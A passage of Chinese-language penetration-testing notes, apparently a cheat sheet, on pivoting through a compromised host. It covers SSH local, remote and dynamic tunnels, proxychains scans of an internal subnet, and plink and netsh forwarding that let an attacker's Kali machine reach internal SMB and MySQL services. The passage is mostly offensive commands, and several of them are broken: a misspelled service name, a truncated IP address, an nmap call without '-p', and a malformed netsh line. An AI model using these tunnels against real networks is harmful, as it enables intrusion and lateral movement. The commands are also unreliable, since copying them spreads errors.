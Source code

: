  sudo service rinted restart
  ```
### SSH隧道
- SSH本地端口转发
    ```
    被控主机: 192.168.1.10
    内网主机: 10.0.0.10
    sudo ssh -N -L 0.0.0.0:445:10.0.0.10:445 username@192.168.1.10

    由于Windows 2016默认不再支持SMBv1, 在建立隧道之前需要修改kali本地Samba的服务配置

    vim /etc/samba/smb.conf
    ...
    min protocol = SMB2

    sudo /etc/init.d/smbd restart
    smbclient -L 127.0.0.1 -U Administrator
    ```
- Recon-ng
  - 建立远程端口转发隧道, 重定向访问目标MySQL服务, 监听端口2221
  ```
  example:
  local: 10.86.10.1
  mysql: 被控主机本地监听
  ssh -N -R 10.86.10.1:2221:127.0.0.1:3306 kali@10.86.10.1
  ss -antp | grep "2221"
  sudo nmap -sS -sV 127.0.0.1 -p 2221
  ```
### 动态端口转发
  - proxychains
  ```
  被控主机: 10.86.10.2
  内网网段: 192.168.1.0/24
  sudo ssh -N -D 127.0.0.1:8080 user@10.86.10.2
  配置proxychains:
    /etc/proxychains.conf
    sock4/5 127.0.0.1 8080
  挂代理扫描内网主机端口
    sudo proxychains nmap --top-ports=20 -sT -Pn 192.168.1.110
  ```
  - plink
    - 基于Windows系统SSH隧道/端口转发
    ```
    kali: 10.86.10.1
    监听端口:1234

    Windows:
    建立反向端口转发, 使kali可以访问被控机本地的MySQL服务
    plink.exe -ssh -l kali -pw ilak -R 10.86.10.1:1234:127.0.0.1:3306 10.86.101
    密码倒置kali=> ilak
    当未获得交互shell时, 无法确认ssh密钥, 修正方式
    cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.86.10.1:1234:127.0.0.1:3306 10.86.10.1

    扫描被控以及本地MySQL服务
    sudo nmap -sS -sV 127.0.0.1 1234
    ```
  - netsh
    ```
    端口转发
    netsh interface portproxy v4tov4 listenport=8080 listenaddress=LHOST connectport=80 listenaddress=RHOST
    验证转发端口已开启
    netstat -anp TCP | find "8080"
    ```
  ```